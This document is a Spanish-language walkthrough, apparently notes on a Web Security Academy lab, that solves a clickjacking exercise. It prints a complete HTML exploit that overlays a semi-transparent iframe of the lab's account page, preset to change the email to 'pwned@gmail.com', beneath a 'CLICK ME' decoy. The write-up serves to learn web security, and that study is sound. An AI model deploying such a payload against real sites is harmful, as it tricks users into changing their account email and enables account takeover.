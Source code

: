 ## Objetivo:

![[Pasted image 20240609185445.png]]

## Solucion:

Iniciamos sesión con nuestra cuenta y una vez dentro vemos que mediante la url podemos cambiar el "value" del formulario para actualizar correo, en este caso seria el "email"

![[Pasted image 20240609185709.png]]

Una vez comprobado eso, crearemos un exploit con esta misma url para hacer nuestor "Clickjacking" ya que el objetivo de ésto es actualizar el correo, y esta es una manera de poder rellenar ese formulario sin que el usuario se dé cuenta...

El "exploit" se vería de la siguiente manera:

```
<!DOCTYPE html>

<html lang="en">

<head>

<meta charset="UTF-8">

<meta name="viewport" content="width=device-width, initial-scale=1.0">

<title>Document</title>

  

<style>

iframe {

width: 1000px;

height: 700px;

z-index: 2;

position: relative;

opacity: 0.3;

}

  

div {

position: absolute;

z-index: 2;

top: 465px;

left: 50px;

}

</style>

  

</head>

<body>

<div>CLICK ME</div>

<iframe src="https://0a1f00d503112dd98062f8960006006e.web-security-academy.net/my-account?email=pwned@gmail.com"></iframe>

</body>

</html>
```

Le damos a Store y nos aseguramos que quede el "CLICK ME" sobre el boton de actualizar email

![[Pasted image 20240609205341.png]]

Y una vez asegurado se lo enviamos a la victima

![[Pasted image 20240609205422.png]]

![[Pasted image 20240609205431.png]]


